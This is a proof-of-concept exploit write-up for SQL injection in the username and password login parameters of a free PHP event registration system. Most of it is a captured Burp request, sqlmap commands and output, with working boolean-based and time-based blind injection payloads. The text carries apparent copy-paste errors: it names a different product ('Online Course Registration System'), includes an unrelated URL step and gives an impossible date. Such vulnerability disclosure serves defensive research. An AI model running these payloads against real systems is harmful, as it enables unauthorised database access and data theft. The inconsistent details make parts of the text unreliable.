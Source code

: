 # Event Registration System - SQL Injection - 1
+ **Exploit Title:** Event Registration System - SQL Injection - 1
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/14884/event-registration-system-qr-code-php-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=14884&title=Event+Registration+System+with+QR+Code+in+PHP+Free+Source+Code
+ **Version:** 1.0(2024)
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Course Registration System allows SQL Injection via the 'username' & 'password' parameters at "http://localhost/event/portal.php" or "http://localhost/event/admin/login.php"
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event/portal.php" or "http://localhost/event/admin/login.php"
+ Then go to http://localhost/onlinecourse/pincode-verification.php
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /event/classes/Login.php?f=rlogin HTTP/1.1
Host: localhost
Content-Length: 27
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/event/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=cc12r4c7k38a4endfa1btuk5he
Connection: close

username=test&password=test
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 5457=5457-- oeCl&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3350 FROM (SELECT(SLEEP(5)))YATt)-- HCBw&password=test
---
[18:13:19] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:13:19] [INFO] fetching current database           
current database: 'event_db'

```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 141313](https://github.com/BurakSevben/CVEs/assets/117217689/087fffb2-8767-462a-b05c-e09b95954d3b)


## Password 
+ Use sqlmap to exploit. In sqlmap, use 'password' parameter to dump the database.
```
sqlmap -r r.txt -p password --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test&password=test') OR NOT 9672=9672-- ZitY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test&password=test') AND (SELECT 5164 FROM (SELECT(SLEEP(5)))xkcG)-- nIna
---
[18:14:58] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:14:58] [INFO] fetching current database
current database: 'event_db'
```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 143806](https://github.com/BurakSevben/CVEs/assets/117217689/db7f440c-90a0-4bcf-9327-55d0d672a930)


